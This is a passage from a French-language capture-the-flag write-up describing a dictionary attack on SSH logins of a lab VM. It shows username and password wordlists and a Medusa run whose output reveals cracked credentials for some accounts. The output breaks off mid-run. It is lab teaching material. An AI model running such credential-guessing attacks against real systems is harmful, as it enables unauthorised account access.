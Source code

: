 ## Attaque par dictionnaire sur les accès SSH de la VM CTF9

Nous sommes donc en mesure de nous constituer deux dictionnaires, l'un contenant des noms d'utilisateurs et l'autre des mots de passe. L'objectif est de déterminer si les utilisateurs sont précautionneux en matière de sécurité, ou s'ils réutilisent le même mot de passe un peu partout... Habituellement, pour trouver les mots de passe de Bob, d'Alice, de Justin ou encore d'Eve, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

```console
root@blinils:~# cat lampsec_SSHusers.txt 
root
justin
bob
eve
alice

root@blinils:~# cat lampsec_SSHpasswords.txt
hacking
madirish.net
billybob
invisible
$investment$
```

Plutôt que de tester les vingt-cinq combinaisons à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) va automatiser cette attaque par dictionnaire !

```console
root@blinils:~# medusa -h 192.168.56.103 -U lampsec_SSHusers.txt -P lampsec_SSHpasswords.txt -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: invisible (4 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: $investment$ (5 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: justin (2 of 5, 1 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: justin (2 of 5, 1 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: justin Password: madirish.net [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: billybob (3 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: bob Password: billybob [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: billybob (3 of 5 complete)
```